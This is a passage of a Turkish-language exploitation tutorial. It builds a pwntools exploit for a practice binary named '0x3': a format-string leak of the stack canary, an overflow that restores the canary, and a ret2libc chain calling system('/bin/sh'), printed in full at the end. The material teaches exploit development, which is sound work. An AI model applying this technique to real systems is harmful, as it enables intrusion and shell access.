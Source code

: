 ```python
cookie = p.recvline().split()[12][:-1]
info(f"Leaked cookie: {cookie.decode()}")
```
Bundan sonra `answer` bufferına yazma yapacağımızdan şimdi asıl payloadımızı oluşturma zamanı.
Stack'i hatırlarsanız, `answer` buffer'ı `name` buffer'ından önce geliyor. O yüzden 16+40 
hesabından 56 karakter yazarak önce `answer` bufferını sonrada `name` bufferını doldurmamız lazım:
```python
payload  = b"A"*56              # answer + name
```
Şimdi sıra leaklediğimiz çerezi geri yazmada, bu çerez şuan byte formunda, `int()` fonksiyonu 
ile hex formuna çevirebiliriz:
```python
payload += p64(int(cookie, 16))
```
Şimdi de `rbp` ile karşı karşıyayız, buray rastgele birşey ile doldurup devam edebiliriz:
```python
payload += b"A"*8
```
Artık dönüş adresine geldik, önceki exploitimizi aynen kullanabiliriz, fakat `struct` modülü
ile değerleri farklı endian formlarına çevirmek yerine pwntools'un fonksiyonlarını kullanabiliriz:
```python
payload += p64(0x7ffff7dff265)  # pop rdi; ret
payload += p64(0x7ffff7f72e28)  # /bin/sh
payload += p64(0x7ffff7dff266)  # ret
payload += p64(0x7ffff7e26c30)  # system()
```
Son olarak payload'ı stdin'den programa gönderebiliriz, ardından `interactive` moduna geçerek 
stdin'i pwntools'dan devralabiliriz. Bu şekilde shell'i kontrol ediceğiz:
```python
p.sendline(payload)
p.interactive()
```
Tam exploit aşağıdaki gibi:
```python
from pwn import *

context.update(arch="amd64", os="linux")
context.binary = ELF("./0x3")
p = process("./0x3")

p.recvuntil(b"\n")
p.sendline(b"%p %p %p %p %p %p %p %p %p %p %p %p %p")
cookie = p.recvline().split()[12][:-1]
info(f"Leaked cookie: {cookie.decode()}")

payload  = b"A"*56              # answer + name
payload += p64(int(cookie, 16)) # cookie
payload += b"A"*8               # rbp
payload += p64(0x7ffff7dff265)  # pop rdi; ret
payload += p64(0x7ffff7f72e28)  # /bin/sh
payload += p64(0x7ffff7dff266)  # ret
payload += p64(0x7ffff7e26c30)  # system()

p.sendline(payload)
p.interactive()
```
